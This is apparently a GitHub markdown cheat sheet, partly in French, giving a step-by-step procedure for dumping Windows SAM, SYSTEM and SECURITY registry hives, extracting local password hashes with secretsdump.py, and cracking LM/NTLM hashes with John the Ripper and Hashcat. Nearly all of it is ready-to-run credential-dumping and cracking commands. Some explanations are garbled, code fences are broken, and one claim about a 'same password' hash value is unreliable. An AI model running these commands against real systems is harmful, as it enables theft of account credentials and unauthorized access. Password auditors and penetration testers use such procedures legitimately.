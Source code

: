 ## 1. Dump the Windows files which contain the local password hashes (Windows registry files: SAM, SECURITY and SYSTEM):

Dump les fichiers de registre à l'aide de "REG SAVE" (nécessite les droits admin):
```
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system 
reg save HKLM\SECURITY C:\temp\security
```



## 2. Extract the windows local password hashes:

```
secretsdump.py -sam sam -security security -system system LOCAL
```



## 3. Hash formats :

Two types of hashes are present in SAM file
	- LM (old storage method of Windows)
	- NTLM


Examples of hash

	[username]::[LM]:[NTLM]:::

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
User:1000:aad3b435b51404eeaad3b435b51404ee:0b82e1dace77e29dd1de00896ba1c5bc:::
```

- If the LM hash has the value "aad3b435b51404eeaad3b435b51404ee" so the password is not storage in the LM hash
- If the NTLM hash has the value "31d6cfe0d16ae931b73c59d7e0c089c0" so the password is empty (potentially due to a desactivated account)
- If the NTLM hash has the value "b1b1d2ebf0bb5707135a9032caea49d3" so we have the same password



## 4. John the ripper - Crack the password hashes :

#### General commands and rules

	john [type of attack] --format=[hash of the format] 

	--rules:Single
	--rules:Wordlist
	--rules:Extra
	--rules:Jumbo (all the above)
	--rules:KoreLogic
	--rules:All (all the above)


#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
````

2. Verify login=password
```
john --single --format=[LM|NTLM] hashes.txt --fork=4
```

3. Standards dictionnary attacks with[out] rules
```
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4
john --wordlist=dictionary.txt --format=LM hashes.txt --fork=4 --rules=KoreLogic
```

Be careful, the rules=all parameter is very long. With a lot of hashes, this operation will working during several days.

4. Show result:

The cracked hashes are located in the corresponding .pot file

	john --format=LM hashes.txt --show
	john --format=NTLM hashes.txt --show



## 5. Hashcat - Crack the password hashes :

#### General commands and rules
```			
hashcat -m <typeOfHash> -a <typeOfAttack> -o <outputFile> <hashesFile.txt> <dictionaryFile.txt>
```		

Advances attacks (option -a)
```
0 - Straight : It is the default attack which is also the dictionary attack
1 - Combination : This attack permits to combine several dictionaries. Example: With a wordlist of fruits and a second with color, we obtain a combined wordlist with combinations like : BananaRed, BananaGreen, AppleRed, AppleGreen
3 - Brute-forcing : Traditional Brute-forcing attack which will try each possible combination. Compatible with Masks-Attacks and Rules-Attacks
4 - Permutation : Attack which change the order of the letter for each word of the dictionary. Example with the password 123: 132, 213, 231, 312, 321
```

#### Cracking methodology :

1. Verify the LM hashes:

You can beginning by a crack of the LM password, in the case of the some hash alues are different to :
```
"aad3b435b51404eeaad3b435b51404ee" -> not storage in LM hash
"31d6cfe0d16ae931b73c59d7e0c089c0" -> empty password
"b1b1d2ebf0bb5707135a9032caea49d3" -> we have the same password
```

2. Verify login=password
```
➤ For LM hash :

• Generate the list of the login
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

• Try login=password 
hashcat -m 3000 hash.txt [LOGIN].txt
```

```
➤ For NTLM hash :

• Generate the list of the login
cat [LIST_OF_HASH].txt | cut -d':' -f1 > [OUTPUT_LOGIN].txt

• Try login=password 
hashcat -m  1000 hash.txt [LOGIN].txt
``

3. Dictionnary attack
```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt --force
```

4. Dictionnary attack with rules

To see the existing rules attacks ls -l /usr/share/hashcat/rules/

```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt  -r [Rules_path] --force

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -r [Rules_path] --force
```

5. Show cracked/not cracked passwords
```
➤ For LM hash :
hashcat -m 3000 -a 0 [Dictionnary].txt [Hash].txt -show

➤ For NTLM hash:
hashcat -m 1000 -a 0 [Dictionnary].txt [Hash].txt -show
```
